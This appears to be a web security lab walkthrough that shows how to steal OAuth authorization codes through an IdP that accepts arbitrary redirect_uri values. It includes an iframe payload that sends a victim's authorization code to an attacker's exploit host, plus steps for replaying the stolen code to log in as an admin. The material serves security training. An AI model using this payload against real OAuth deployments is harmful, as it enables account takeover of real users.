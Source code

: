 # Steal an OAuth authorization code via misconfigured redirect_uri

Risk: The IdP accepts arbitrary `redirect_uri` values (no strict allowlist), so `response_type=code` authorization responses are sent to attacker-controlled domains, leaking authorization codes. The attacker can then complete the client app login as the victim by supplying the stolen code to the client callback.

Assumptions
- Victim (admin) has an active IdP session and will open links from your exploit server.
- IdP does not strictly validate `redirect_uri` against a per-client allowlist.
- Client uses the Authorization Code flow and accepts a `code` on `oauth-callback` to finish login.

High-level attack chain
1) Trigger IdP `/auth` with `response_type=code` using the victim’s client_id.
2) Set `redirect_uri` to your exploit server (external domain).
3) IdP redirects to your server with `?code=...` in the query string.
4) Use the stolen `code` on the client’s callback endpoint to complete login as the victim.

Hunting methodology (repeatable)
1) Baseline the code flow
   - Log in normally while proxying. Identify `GET /auth?client_id=...&redirect_uri=...&response_type=code` and the subsequent redirect to the client with `?code=...`.
   - Confirm that re-login with an active IdP session is immediate (SSO) so the authorization request proceeds without prompts.

2) Test `redirect_uri` acceptance at the IdP
   - Send the latest `GET /auth?...` to Repeater.
   - Replace `redirect_uri` with your exploit server origin, e.g., `https://{EXPLOIT_HOST}`. If the response issues a redirect to your domain containing `?code=...`, the IdP is misconfigured.

3) Build and host the exploit
   - Minimal PoC using an iframe at `/exploit` on your exploit server:
```
<iframe src="https://{IDP_HOST}/auth?client_id={CLIENT_ID}&redirect_uri=https://{EXPLOIT_HOST}&response_type=code&scope=openid%20profile%20email"></iframe>
```
   - Store and view the exploit; verify your access log contains a request with `?code=...`.

4) Steal the victim’s code
   - Deliver the exploit to the victim. Monitor the exploit server access log and copy the resulting `code`.

5) Complete login as the victim
   - Log out of the client app to clear your session.
   - Visit the client callback directly with the stolen code:
```
https://{VICTIMSITE}/oauth-callback?code={STOLEN_CODE}
```
   - The client should finish the flow and log you in as the victim (admin). Proceed to privileged actions (e.g., delete `carlos`).

Notes and pitfalls
- No fragment exfiltration is required here; authorization codes are in the query string and reach your server and logs directly.
- If the IdP prompts for consent or login, ensure the victim has an active IdP session to avoid user friction.
- If `state` is present, some clients validate it only on their own callback; the IdP misconfig still leaks `code` to your domain. You still need to send the `code` to the client’s callback URL.
- Codes are typically short-lived and single-use; act promptly after capture.
